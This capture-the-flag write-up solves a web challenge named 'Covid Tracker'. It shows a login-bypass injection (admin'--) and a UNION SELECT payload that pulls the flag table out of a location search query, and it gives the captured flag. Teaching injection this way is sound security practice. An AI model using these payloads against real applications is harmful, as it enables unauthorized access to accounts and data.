# Covid Tracker [50 pts]

**Category:** Web

**Solves:** 68

## Description
>I made a Covid Tracker to see track how many Covid cases are around. Im hoping I get **injected** with the vaccine soon.
> 
> [challs1.nusgreyhats.org:5201](http://challs1.nusgreyhats.org:5201/)

## Solution
Category: SQL Injection

For this challenge, the first page features a typical login screen with username and password fields.

Luckily for this challenge, the server's index.js is provided so we do not have to do any blind SQL injection. The front-end js script is also provided within the html source code

### Part 1
For the first exploit, we are given the SQL query:
> SELECT username FROM users WHERE username='${username}' AND password='${password}'


Our goal is to login as username = `admin`, so we can simply use `admin'--` as our user input with the password being anything.

The `--` symbol will mark the text following it as a comment, so our SQL query is now essentially 

> SELECT username FROM users WHERE username='admin'


### Part 2
For the 2nd SQL exploit, we have to get the flag from `location_db`. There are 2 tables in the database, `locations` and `flag`, and the SQL query for the `location_db` is:
> SELECT name, geo, cases FROM locations WHERE name LIKE '${'%' + search + '%'}'

The output of the rows is then sent to the client. Our goal is to make an additional SQL query and leak the value in `flag` table.

The exploit is as follow: `%' UNION SELECT value, value, value FROM flag --`

This results in the the SQL query:
> SELECT name, geo, cases FROM locations WHERE name LIKE '%%' 
> UNION 
> SELECT value, value, value FROM flag --%'

We use 3 `value` here because we need a same number of columns to perform a union of rows

We can now check our leaked flag in the console

### Flag
`greyhats{w3bApp5_n33d_v@cc1ne?_4521f}`
